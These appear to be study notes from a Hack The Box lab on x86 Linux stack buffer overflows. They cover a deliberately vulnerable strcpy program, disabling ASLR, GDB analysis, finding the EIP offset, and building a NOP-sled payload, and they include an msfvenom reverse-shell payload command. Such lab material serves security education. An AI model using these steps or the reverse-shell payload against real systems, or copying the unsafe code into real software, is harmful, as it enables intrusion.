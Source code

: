 # Linux Stack-Based BOF (x86)
https://academy.hackthebox.com/module/31/section/385

- Vulnerable function `strcpy()`

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int BowFunction(char *string) {
    char buffer[1024];
    strcpy(buffer, string);
    return 1;
}

int main(int argc, char *argv[]) {
    BowFunction(argv[1]);
    printf("done.\n");
    return 1;
}

`Disable ASLR`
```bash
student@nix-bow:~$ sudo su
root@nix-bow:/home/student# echo 0 > /proc/sys/kernel/randomize_va_space
root@nix-bow:/home/student# cat /proc/sys/kernel/randomize_va_space
```

`Compile in 32-bit Format` 
```bash
student@nix-bow:~$ gcc bow.c -o bow32 -fno-stack-protector -z execstack -m32
student@nix-bow:~$ file bow32 | tr "," "\n"
```

`Compile in 64-bit Format`
```bash
student@nix-bow:~$ gcc bow.c -o bow64 -fno-stack-protector -z execstack -m64
student@nix-bow:~$ file bow64 | tr "," "\n"
```

- There are several vulnerable functions in C that do not independently protect memory:
```
    - strcpy
    - gets
    - sprintf
    - scanf
    - strcat
    - and more...
```

#### GDB - AT&T Syntax

```bash
student@nix-bow:~$ gdb -q bow32

Reading symbols from bow...(no debugging symbols found)...done.
(gdb) disassemble main

Dump of assembler code for function main:
   0x00000582 <+0>: 	lea    0x4(%esp),%ecx
   0x00000586 <+4>: 	and    $0xfffffff0,%esp
   0x00000589 <+7>: 	pushl  -0x4(%ecx)
   0x0000058c <+10>:	push   %ebp
   0x0000058d <+11>:	mov    %esp,%ebp
   0x0000058f <+13>:	push   %ebx
   0x00000590 <+14>:	push   %ecx
   0x00000591 <+15>:	call   0x450 <__x86.get_pc_thunk.bx>


 GDB - Change the Syntax to Intel

(gdb) set disassembly-flavor intel
(gdb) disassemble main

Dump of assembler code for function main:
   0x00000582 <+0>:	    lea    ecx,[esp+0x4]
   0x00000586 <+4>:	    and    esp,0xfffffff0
   0x00000589 <+7>:	    push   DWORD PTR [ecx-0x4]
   0x0000058c <+10>:	push   ebp
   0x0000058d <+11>:	mov    ebp,esp
   0x0000058f <+13>:	push   ebx
   0x00000590 <+14>:	push   ecx
   0x00000591 <+15>:	call   0x450 <__x86.get_pc_thunk.bx>

```
```bash
OR echo 'set disassembly-flavor intel' > ~/.gdbinit
```

#### GDB - Intel Syntax

```bash
student@nix-bow:~$ gdb ./bow32 -q

Reading symbols from bow...(no debugging symbols found)...done.
(gdb) disassemble main

Dump of assembler code for function main:
   0x00000582 <+0>: 	lea    ecx,[esp+0x4]
   0x00000586 <+4>: 	and    esp,0xfffffff0
   0x00000589 <+7>: 	push   DWORD PTR [ecx-0x4]
   0x0000058c <+10>:	push   ebp
   0x0000058d <+11>:	mov    ebp,esp
   0x0000058f <+13>:	push   ebx
   0x00000590 <+14>:	push   ecx
   0x00000591 <+15>:	call   0x450 <__x86.get_pc_thunk.bx>\
```

The difference between the AT&T and Intel syntax is not only in the presentation 
of the instructions with their symbols but also in the order and direction 
in which the instructions are executed and read.

## CPU Registers

```
Data registers
--------------
32-bit Register 	64-bit Register 	Description
===============     ===============     ===========
EAX 	            RAX 	            Accumulator. Input/output/arithmetic.
EBX 	            RBX 	            Base is used in indexed addressing
ECX 	            RCX 	            Counter is used to rotate instructions and count loops
EDX 	            RDX 	            I/O and arithmetic multiply/ divide large values

Pointer registers
-----------------
32-bit Register 	64-bit Register 	Description
===============     ===============     ===========
EIP 	            RIP 	            Instruction Pointer/ next instruction to be executed
ESP 	            RSP 	            Stack Pointer points to the top of the stack
EBP 	            RBP 	            Stack Base Pointer or Frame Pointer

Index registers
---------------
Register 32-bit 	Register 64-bit 	Description
===============     ===============     ===========
ESI 	            RSI 	            Source Index as a pointer from src for string operations
EDI 	            RDI 	            Destination as a pointer to dest for string operations
```

## Stack Frames

Since the stack memory is built on a Last-In-First-Out (LIFO) data structure, 
the first step is to store the previous EBP position on the stack, 
which can be restored after the function completes.

#### Prologue

```bash
(gdb) disas bowfunc 

Dump of assembler code for function bowfunc:
   0x0000054d <+0>:	    push   ebp       # <---- 1. Stores previous EBP
   0x0000054e <+1>:	    mov    ebp,esp   # <---- 2. Creates new Stack Frame
   0x00000550 <+3>:	    push   ebx
   0x00000551 <+4>:	    sub    esp,0x404 # <---- 3. Moves ESP to the top
   <...SNIP...>
   0x00000580 <+51>:	leave  
   0x00000581 <+52>:	ret    
```

#### Epilogue

```bash
(gdb) disas bowfunc 

Dump of assembler code for function bowfunc:
   0x0000054d <+0>:	    push   ebp       
   0x0000054e <+1>:	    mov    ebp,esp   
   0x00000550 <+3>:	    push   ebx
   0x00000551 <+4>:	    sub    esp,0x404 
   <...SNIP...>
   0x00000580 <+51>:	leave  # <----------------------
   0x00000581 <+52>:	ret    # <--- Leave stack fram
```

The `call` function performs two operations:
```
    - Pushes the return address onto the stack.
    - Changes the instruction pointer to the call dest and starts execution there.
```

## Taking Control of the EIP

https://academy.hackthebox.com/storage/modules/31/buffer_overflow_2.png

Overflowing data will fill from the stack pointer, 
past the base pointer and over the instruction pointer

#### Create Pattern

```bash
bluechat@htb[/htb]$ pattern_create -l 1200 > pattern.txt
bluechat@htb[/htb]$ cat pattern.txt

Aa0Aa1Aa2Aa3Aa4Aa5...<SNIP>...Bn6Bn7Bn8Bn9

(gdb) info registers eip
eip            0x69423569	0x69423569
```

#### GDB Offset

```bash
bluechat@htb[/htb]$ pattern_offset -q 0x69423569
[*] Exact match at offset `1036`

(gdb) run $(python -c "print '\x55' * 1036 + '\x66' * 4")

Starting program: /home/student/bow/bow32 $(python -c "print '\x55' * 1036 + '\x66' * 4")
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```

We have a perfect overwrite of the EIP.
It's generally best practice to take a bit more space in case of compilation specifications `(1040)`.

## Determining Length for the Shellcode

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 
                lport=31337 --platform linux --arch x86 --format c

No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
<SNIP>
```

Adding NOP sled before the shellcode to ensure that it executes cleanly is a good idea.
```
   - We need a total of 1040 bytes to get to the EIP.
   - Here, we can use an additional 100 bytes of NOPs
   - 150 bytes for our shellcode.

        Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
        NOPs = "\x90" * 100
        Shellcode = "\x44" * 150
        EIP = "\x66" * 4'
```

Try seeing how much space we have for our shellcode, available:
```bash
(gdb) 
run $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')

Starting program: /home/student/bow/bow32 
$(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```
https://academy.hackthebox.com/storage/modules/31/buffer_overflow_7.png